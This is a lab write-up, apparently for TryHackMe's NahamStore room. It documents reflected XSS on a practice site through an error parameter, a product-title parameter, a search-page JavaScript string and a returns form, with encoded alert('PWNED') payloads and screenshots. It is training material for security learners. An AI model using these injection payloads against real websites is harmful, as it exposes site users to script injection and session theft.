 # RECON





# XSS

# `http://marketing.nahamstore.thm/?error=`
- Go to (http://marketing.nahamstor.thm)
- It has two links redirects.

```html
  <td>Pre Opening Interest</td>
  <td>12/10/2020 18:23</td>
  <td class="text-center"><a href="/8d1952ba2b3c6dcd76236f090ab8642c" target="_blank"><span class="glyphicon glyphicon-new-window"></span></a></td>
</tr>
<tr>
  <td>Hoodie Giveaway</td>
  <td>12/15/2020 10:16</td>
  <td class="text-center"><a href="/09c2afcff60bb4dd3af7c5c5d74a482f" target="_blank"><span class="glyphicon glyphicon-new-window"></span></a></td>
```

- Edited the link to `/8d1952ba2b3c6dcd76236f090ab8642r`, i.e., changed last alphabet of the of redirect and got a new page `http://marketing.nahamstore.thm/?error=Not+Found`
- We can XSS in the `error` parameter, because same text is used in the web-page as `Not Found`, which can be confirmed by editing the parameter.
- We need to escape the `<p>` tag and inject are code

```html
<div class="alert alert-danger text-center" style="margin:0 100px 0 100px">
  <p>Not Found</p>
</div>

```

- I escaped `<div>` tags also just for fun
- **URL** - (http://marketing.nahamstore.thm/?error=XSS%3C%2Fp%3E%3C%2Fdiv%3E%3C%2Fdiv%3E%3C%2Fdiv%3E%3Ch1+style%3D%22color%3Ared%3Btext-align%3Acenter%22%3EPWNED%3C%2Fh1%3E) 

![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/15.png)

## `http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee`
- Edited name tag to `random`, and the title changed to `random`.

```html
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>NahamStore - random</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
</head>
```

- We can escape `</title>` tag and the code will be fine.
- Made a get request to (http://nahamstore.thm/product?id=1&name=%3C/title%3E%3Cscript%3Ealert(%22PWNED%22)%3C/script%3E) and got an alert `PWNED`

![screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/16.png)

## `http://nahamstore.thm/search?q=`
- There is a Javascript XSS on the page, we can escape parenthesis with `' +` and write are command and end it with `+ '`

```javascript
var search = 'random';
    $.get('/search-products?q=' + search,function(resp){
        if( resp.length == 0 ){

            $('.product-list').html('<div class="text-center" style="margin:10px">No matching products found</div>');

        }else {
            $.each(resp, function (a, b) {
                $('.product-list').append('<div class="col-md-4">' +
                    '<div class="product_holder" style="border:1px solid #ececec;padding: 15px;margin-bottom:15px">' +
                    '<div class="image text-center"><a href="/product?id=' + b.id + '"><img class="img-thumbnail" src="/product/picture/?file=' + b.img + '.jpg"></a></div>' +
                    '<div class="text-center" style="font-size:20px"><strong><a href="/product?id=' + b.id + '">' + b.name + '</a></strong></div>' +
                    '<div class="text-center"><strong>$' + b.cost + '</strong></div>' +
                    '<div class="text-center" style="margin-top:10px"><a href="/product?id=' + b.id + '" class="btn btn-success">View</a></div>' +
                    '</div>' +
                    '</div>');
            });
        }
    });
```

- Made a request as `http://nahamstore.thm/search?q=%27%2B%20alert(%22PWNED%22)%20%2B%27` and got a alert (we cannot use `+` directly because it stands for <SPACE> in URL, so user `%2B` instead.)

![Screenshot](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/18.png)

## `http://nahamstore.thm/returns`

- First need to place an order so made an account, signed in, and ordered an item, and noted the ordered id for future reference.
- Went to `http://nahamstore.thm/returns` ,entered the id we got earlier and created the return. 

![alt](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/19.png)

![alt](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/20.png)

- On the confirmation page we can see that same `Random Text` is inside a `textbox`. We can escape the tag `textbox` and make Cross Site Scripting(`XSS`)
- Made an attempt to alert `PWNED`

![alt](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/21.png)

- Got an alert

![alt](https://github.com/divu050704/assets-holder/raw/main/tryhackme-screenshots/22.png)
